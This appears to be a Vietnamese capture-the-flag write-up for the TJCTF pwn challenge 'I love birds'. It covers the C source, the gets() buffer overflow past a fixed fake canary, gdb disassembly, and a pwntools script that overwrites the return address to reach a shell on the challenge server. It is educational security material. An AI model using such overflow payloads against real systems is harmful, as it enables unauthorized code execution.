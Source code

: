# TJCTF

## Pwn 
1. Pwn/I love birds

    ![image](https://hackmd.io/_uploads/SkU-PYCXlx.png)

+ Source code birds.c: 

        #include <stdio.h>
        #include <stdlib.h>
        
        void gadget() {
            asm("push $0x69;pop %rdi");
        }


        void win(int secret) {
            if (secret == 0xA1B2C3D4) {
                system("/bin/sh");
            }
        }


        int main() {
            setvbuf(stdout, NULL, _IONBF, 0);
            setvbuf(stdin, NULL, _IONBF, 0);

            unsigned int canary = 0xDEADBEEF;

            char buf[64];    // 64 bytes chứa trong char 

            puts("I made a canary to stop buffer overflows. Prove me wrong!");
            gets(buf);    // buffer overflow 

            if (canary != 0xDEADBEEF) {     
                puts("No stack smashing for you!");
                exit(1);
            }


            return 0;
        }
Nhìn vào source code trong file birds.c, trong code này có 3 điểm cần lưu í: 
- Bug: gets(buf) là lỗi buffer overflow, cụ thể là hàm gets không kiểm tra kích thước của biến khai báo đầu vào, vậy nếu người dùng nhập vào lớn hơn 64 bytes của biến char => sẽ sinh ra buffer overflow (tràn bộ nhớ). 
- Fake Canary : 
+ Trong buffer overflow, có 1 kĩ thuật được gọi là stack canary - kĩ thuật dùng để phát hiện lỗi buffer overflow. Giải thích 1 chút về stack canary thì chúng ta sẽ đặt 1 cái giá trị trên stack, và giá trị này sẽ thay đổi mỗi lần khi chương trình được khởi động. Trước khi hàm trả về, stack canary được kiểm tra và nếu có vẻ như đã được sửa đổi, chương trình sẽ thoát ngay lập tức.
+ Quay lại đoạn code, chúng ta có thể thấy có 1 giá trị canary là 0xDEADBEEF, tuy nhiên thì cái canary này chỉ có 4 bytes và tồn tại dưới dạng local variables bình thường, vậy có nghĩa là canary này không được đặt đúng cách giữa vulnerable buffer và return address => giá trị canary này phải được giữ nguyên. 
- Hàm 
 
              void win(int secret) {
              if (secret == 0xA1B2C3D4) {
                  system("/bin/sh");

Chúng ta sẽ cần set giá trị của secret = 0xA1B2C3D4 để trigger ra hàm win, nhưng secret được set như 1 variable kiểu int. 

Ta đã có 1 vài hướng đi khi nhìn source code, vậy tiếp tục ta sẽ xem thử file birds xem nó có những gì, mình sẽ xem thử code trong IDA: 
![image](https://hackmd.io/_uploads/S1NF8BKXgl.png)

Với hướng đi từ birds.c ở trên, khi check IDA chúng ta có thể tóm gọn lại vấn đề : chương trình này kiểm tra input và check giá trị của biến v5, giá trị biến v5 chính là 0xDEADBEEF kiểu int, thì biến v5 chính là biến 32 bit với giá trị 4 bytes(giá trị kiểu int), vậy nên hướng đi của bài này chính là chúng ta cần kiểm soát được giá trị saved RIP nhưng vẫn giữ nguyên được giá trị biến v5 = 0xDEADBEEF => từ đó ghi đè vào được hàm win để có thể gọi ra file /bin/sh. 

Sau khi đã có được hướng đi, ta sẽ tiến hành debug sâu vào trong file birds : 
```
 0x00000000004011ee <+0>:     endbr64
   0x00000000004011f2 <+4>:     push   rbp
   0x00000000004011f3 <+5>:     mov    rbp,rsp
   0x00000000004011f6 <+8>:     sub    rsp,0x50
   0x00000000004011fa <+12>:    mov    rax,QWORD PTR [rip+0x2e3f]        # 0x404040 <stdout@GLIBC_2.2.5>
   0x0000000000401201 <+19>:    mov    ecx,0x0
   0x0000000000401206 <+24>:    mov    edx,0x2
   0x000000000040120b <+29>:    mov    esi,0x0
   0x0000000000401210 <+34>:    mov    rdi,rax
   0x0000000000401213 <+37>:    call   0x4010b0
   0x0000000000401218 <+42>:    mov    rax,QWORD PTR [rip+0x2e31]        # 0x404050 <stdin@GLIBC_2.2.5>
   0x000000000040121f <+49>:    mov    ecx,0x0
   0x0000000000401224 <+54>:    mov    edx,0x2
   0x0000000000401229 <+59>:    mov    esi,0x0
   0x000000000040122e <+64>:    mov    rdi,rax
   0x0000000000401231 <+67>:    call   0x4010b0
   0x0000000000401236 <+72>:    mov    DWORD PTR [rbp-0x4],0xdeadbeef
   0x000000000040123d <+79>:    lea    rax,[rip+0xdcc]        # 0x402010
   0x0000000000401244 <+86>:    mov    rdi,rax
   0x0000000000401247 <+89>:    call   0x401080
   0x000000000040124c <+94>:    lea    rax,[rbp-0x50]
   0x0000000000401250 <+98>:    mov    rdi,rax
   0x0000000000401253 <+101>:   mov    eax,0x0
   0x0000000000401258 <+106>:   call   0x4010a0
   0x000000000040125d <+111>:   cmp    DWORD PTR [rbp-0x4],0xdeadbeef
   0x0000000000401264 <+118>:   je     0x40127f <main+145>
   0x0000000000401266 <+120>:   lea    rax,[rip+0xddd]        # 0x40204a
   0x000000000040126d <+127>:   mov    rdi,rax
   0x0000000000401270 <+130>:   call   0x401080
   0x0000000000401275 <+135>:   mov    edi,0x1
   0x000000000040127a <+140>:   call   0x4010c0
   0x000000000040127f <+145>:   mov    eax,0x0
   0x0000000000401284 <+150>:   leave
   0x0000000000401285 <+151>:   ret
```
Đây là đoạn code sau khi chúng ta sử dụng command disas main ở trong gdb, sau khi đọc assembly ta có thể thấy giá trị 0xdeadbeef được compare với rbp-0x4(truy xuất vào địa chỉ bộ nhớ cách địa chỉ lưu trữ của rbp 4 bytes), vậy nên ta sẽ set breakpoint ở dòng 111 và tiếp tục chạy chương trình đến breakpoint với giá trị 0x40125d:  

Sau đó trong gdb, ta dùng câu lệnh info fucntion để lấy ra giá trị hàm win, trong gdb của mình thì giá trị hàm win là 0x00000000004011c4. 

Lấy được giá trị hàm win, ta có thể bắt đầu thực hiện viết exploit với mục đích là padding mà vẫn giữ nguyên được canary là 0xdeadbeef: 

```
from pwn import *

context.log_level = "debug"
context.arch = "amd64"
context.os = "linux"
context.terminal = ["/usr/bin/tmux", "sp", "-h"]

f_remote = True if "remote" in sys.argv else False
f_gdb = True if "gdb" in sys.argv else False

vuln_path = "./birds"
elf = ELF(vuln_path)
libc = elf.libc

io = process([vuln_path]) if not f_remote else remote("tjc.tf", 31625)


def ddebug(b=""):
    if not f_gdb: return
    gdb.attach(io, gdbscript=b)
    pause()


payload = b'A'*0x48 + b'B'*4 + p32(0xdeadbeef) + p64(0) + p64(0x4011c4)

ddebug()
io.sendline(payload)
io.interactive()
```
![image](https://hackmd.io/_uploads/rJbOIYC7lx.png)




